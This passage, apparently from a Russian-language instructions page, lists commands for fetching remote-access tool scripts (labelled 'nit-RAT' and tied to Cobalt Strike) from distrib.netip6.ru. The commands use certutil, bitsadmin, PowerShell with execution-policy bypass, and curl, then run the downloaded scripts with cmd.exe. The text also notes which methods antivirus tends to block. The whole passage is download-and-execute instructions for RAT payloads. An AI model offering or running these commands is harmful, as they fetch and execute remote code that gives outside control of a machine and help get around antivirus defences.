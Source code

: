 (часто не запускается, блокируется антивирусом), или

```text
powershell.exe -NoLogo -NoProfile -WindowStyle Normal -ExecutionPolicy Bypass -Command (New-Object System.Net.WebClient).DownloadFile('http://distrib.netip6.ru:80/NIT/RAT/nit-RAT-ares-run-00.cmd', 'C:\Users\Администратор\nit-RAT-ares-run-00.cmd')
```

(требует установленного powershell 2.0+, .Net Framework 3.5+), или

```text
powershell.exe -NoLogo -NoProfile -WindowStyle Normal -ExecutionPolicy Bypass -Command Invoke-WebRequest -Uri 'http://distrib.netip6.ru:80/NIT/RAT/nit-RAT-ares-run-00.cmd' -OutFile 'C:\Users\Администратор\nit-RAT-ares-run-00.cmd'
```

(требует установленного powershell 3.0+, Net Framework 4+), или

```text
c:\Util\curl.exe http://distrib.netip6.ru:80/NIT/RAT/nit-RAT-ares-run-00.cmd -o C:\Users\Администратор\nit-RAT-ares-run-00.cmd
```

(работает всегда, но требует предварительной настройки)

Команда 2:

```text
cmd.exe /c C:\Users\Администратор\nit-RAT-ares-run-00.cmd
```

#### Программа Cobalt Strike (не игра)

Способ 1:

Загрузите файл по ссылке и запустите его в папке «Загрузки»:

<http://distrib.netip6.ru:80/NIT/RAT/download.php?file=nit-coba-remote-RAT.bat>

Способ 2:

Последовательно выполните следующие команды на удалённом компьютере/сервере:

Команда 1:

```text
bitsadmin.exe /Transfer RemoteEnable00 /DOWNLOAD /PRIORITY FOREGROUND http://distrib.netip6.ru:80/NIT/RAT/nit-RAT-coba-run-00.cmd C:\Users\Администратор\nit-RAT-coba-run-00.cmd
```

(работает только в командных файлах или при виртуальном доступе), или

```text
certutil.exe -urlcache -f http://distrib.netip6.ru:80/NIT/RAT/nit-RAT-coba-run-00.cmd C:\Users\Администратор\nit-RAT-coba-run-00.cmd
```

(часто не запускается, блокируется антивирусом), или

```text
powershell.exe -NoLogo -NoProfile -WindowStyle Normal -ExecutionPolicy Bypass -Command (New-Object System.Net.WebClient).DownloadFile('http://distrib.netip6.ru:80/NIT/RAT/nit-RAT-coba-run-00.cmd', 'C:\Users\Администратор\nit-RAT-coba-run-00.cmd')
```
